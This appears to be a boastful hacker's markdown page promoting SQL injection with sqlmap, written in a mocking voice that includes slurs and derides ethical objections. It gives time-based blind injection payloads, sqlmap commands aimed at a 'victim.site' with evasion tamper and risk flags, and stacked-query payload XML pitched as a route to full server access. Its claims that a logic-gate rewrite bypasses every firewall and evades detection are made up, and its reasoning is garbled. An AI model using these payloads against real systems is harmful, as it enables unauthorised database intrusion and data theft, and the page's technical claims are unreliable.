

# 💉 SQLmap (OP as fuck)

<figure><figcaption><p>Picture of SQLmap</p></figcaption></figure>

CYANIDE: "We pwn databases and slay all the data 🤫🤫✨&#x20;

Incel retard: "Nooo we cannot do that its unethical"&#x20;

CYANIDE: "Router offline?? LULZZ😴😴"


Example of me (**Cyanide/H3ll0k1tty**) getting databse accesss doing SqlMAP INJECTIONZZZ in Base64 Encoding (u can use my theory below to do this as well lolz lolz lolz)


**200 IQ custom** theory that slay asf (legit if you can't bypass with this method then there is 0% SQL injection anywayz)

So complex theory as you can see in the picture below this is about logical gates and how the CPU works deep down but im going to be quick and tell you that this is bascially 0s and 1s.. but the reason this is so OP for sqlmap is because everything in the whole PC is made of 0s and 1s thanks to alan turing theory we can create anything thats turing-passable with in binary.

<figure><figcaption></figcaption></figure>

So here is the next slay step...  which is the OP method as we can see **ChatGPT** has verified my theory, we can use the and the "AND" logical gates combined with the "Inverted" logical gate, (**we dont** even need "OR" gate)&#x20;

<figure><figcaption></figcaption></figure>

For example look at this **SQL injection code uwu**

```
(SLEEP(10-(IF(16=16,0,10))))
```

If we look closely we can see that and IF statement is being used we can make the same functionality with my 200 iq method by using logical gates, this is basically the same as the statement above and will bypass every WAF or firewall, if it doesn't you can try with SQLmap --tampers to url encode or use pure parantheses to not include spaces in the URL: \


```
(SELECT(SLEEP(10 - ((NOT(NOT(16=16)) AND 0) AND (NOT(TRUE) AND 10))))
```

```markdown
Here are some extra tings to remeber,...
- **H4ck1ng SQL 101**: `sqlmap -u "victim.site" --tampers=space2comment` for that sneaky attazck 
- **S3cr3t Modes Activate**: Add `--level=5 --risk=3` to go full beast mode on that database


```

You can include my pro haxxor method of "NOT" and "Inverted" + "AND" logical gate in your SQLmap payloads:\


MySQL >= 5.0.12 stacked queries (comment) 4 2 1 1-8 1 ;SELECT IF((\[INFERENCE]),SLEEP(\[SLEEPTIME]),\[RANDNUM]) ;SELECT SLEEP(\[SLEEPTIME]) # \[SLEEPTIME]&#x20;

MySQL >= 5.0.12

```
<test>
    <title>MySQL &gt;= 5.0.12 stacked queries</title>
    <stype>4</stype>
    <level>3</level>
    <risk>1</risk>
    <clause>1-8</clause>
    <where>1</where>
    <vector>;SELECT IF(([INFERENCE]),SLEEP([SLEEPTIME]),[RANDNUM])</vector>
    <request>
        <payload>;SELECT SLEEP([SLEEPTIME])</payload>
    </request>
    <response>
        <time>[SLEEPTIME]</time>
    </response>
    <details>
        <dbms>MySQL</dbms>
        <dbms_version>&gt;= 5.0.12</dbms_version>
    </details>
</test>
```


or you can use it as a tamper as a python script  in sqlmap:

#### if possibel stacking SQL Queries in MySQL to maybe get full shell and full server access (Remote code execution)

#### Stacked let you execute multiple SQL statements in a single database request.&#x20;

#### This method is works in MySQL version 5.0.12 and later....  multiple statements can be executed simultaneously if you seperate them them with a semicolon (`;`).


Example of stacked query, this is in payloads xml from SQLMap btw

```xml
<vector>;SELECT IF(([INFERENCE]),SLEEP([SLEEPTIME]),[RANDNUM])</vector>
```

This payload uses the `IF` statement to check a condition (`[INFERENCE]`), and based on maybe it delays the response using `SLEEP([SLEEPTIME])` or it will gen random number (`[RANDNUM]`). This allows us to know if the inejection worked based on sleep time from burpsuite or something


```xml
<request>
    <payload>;SELECT SLEEP([SLEEPTIME])</payload>
</request>
```


\
Anyways my pro sophisticated method is as pure as a computer can come because of logical.. making it almost impossible for firewalls or other security to detect the attempts.&#x20;

By using logical operations ('AND', 'NOT') we can make the most stealthy and most "bypassable" method for SQL injection attacks.


H3ll0K1tty aka CYANIDE on TOP BTW too smart for this shiiii
